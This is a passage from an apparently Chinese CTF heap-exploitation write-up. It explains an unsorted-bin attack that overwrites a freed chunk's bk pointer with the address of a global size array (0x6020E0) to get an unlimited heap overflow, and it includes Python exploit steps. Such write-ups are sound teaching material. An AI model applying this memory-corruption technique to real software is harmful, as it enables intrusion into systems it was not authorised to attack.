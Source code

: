 

如果将bk部分存放成 [chunk的size的地址]0x6020E0(ida中查看得到)

`edit(7,0x20,p64(0)+p64(0x6020E0)+"\n")`，可以看到bk部分被写入了size的值


![upload successful](/images/pasted-76.png)


这时，再次申请的时候( 要先把tcachebins中的申请完之后才会再申请unsortedbin中的 )，会写入一个地址，某个chunk的size就会变成一个超大的值，在edit的时候就可以无限溢出了。

```python
for i in range(10):
    add(i,0x108)

for i in range(7):
    free(i)

free(7)
edit(7,0x20,p64(0)+p64(0x6020E0)+"\n")

for i in range(7):
    add(i+10,0x108)

add(18,0x108)
```